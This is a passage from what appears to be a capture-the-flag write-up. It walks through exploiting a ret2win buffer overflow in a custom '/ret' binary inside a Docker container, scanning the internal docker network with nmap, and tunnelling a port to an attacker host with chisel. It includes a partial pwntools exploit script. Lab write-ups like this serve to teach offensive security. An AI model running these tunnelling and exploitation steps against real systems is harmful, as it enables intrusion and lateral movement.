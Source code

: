 # Docker
After getting a reverse shell, we see that we're in a docker container. There's a custom binary `/ret`, we download it and
run it through a disassembler/decompiler (popular choices are gdb,r2,ghidra,ida) and see that there's a `vuln` and `win` function.

![functions](https://i.imgur.com/brxY4Tj.png)

Now, this should be a dead giveaway that we need to perform a "ret2win" attack on this binary but we can look into the `win` 
function further.

![win function](https://i.imgur.com/4WemthK.png)

We also run our basic checks like `file ret`, `checksec --file ret` or `rabin2 -I ret` to see if there's any protections, the
only one is `NX` which means we can't execute shellcode off the stack but it's irrelevant here.

So, we need to find the offset and then place the value of `win` function in "rsp". We can get this through gdb, run `pattern create 200`, copy the output, `run` to run the program and paste. We see the program crash and if we do 
`pattern search $rsp` we get an exact offset at "136" (little endian because our binary is an lsb executable).
Now, we just need the function address which we get in gdb by using `info functions`, chain them together and we have ret2win.
We could exploit the suid bit on the `ret` binary but then we'd still be in the container, so we scan the docker network to see
if the host has anything interesting running. (note: nmap has been installed already to skip transfering over a static binary)

Running `nmap 172.17.0.0/24` we see the host `172.17.0.1` has port 4444 open, which isn't accessible from the outside. Using nc to connect to the port we see that the `ret` binary is running over this port. We could forward this port to our machine and directly use pwntools for the exploitation which makes this process a lot neater and easier.

(This step is optional as the ret binary running on 4444 can be directly exploited to get a shell on the box)
## Port forwarding
We'll be using chisel to do our port forwarding but socat can also be used.
On your attacker machine, start a chisel server with 
```bash
chisel server --reverse -p 3000
```
then, transfer a static chisel binary on the machine with a python web server and forward the port with chisel
```bash
./chisel client <your_thm_ip>:3000 R:4444:172.17.0.1:4444
```
now, port 4444 on our attacker machine should serve the connection and we can use pwntools at will.
The previously explained exploit done in pwntools looks something like this:
```python
from pwn import *

exe = './ret'
elf = ELF(exe)

offset = 136	#offset found using gdb

payload = b"A"*offset
payload += p64(elf.symbols['win']) 	#win function address found with elf

io = remote('localhost',4444)		#connecting to our forwarded port

io.recvline();io.recvline();		#recieving the initial junk
```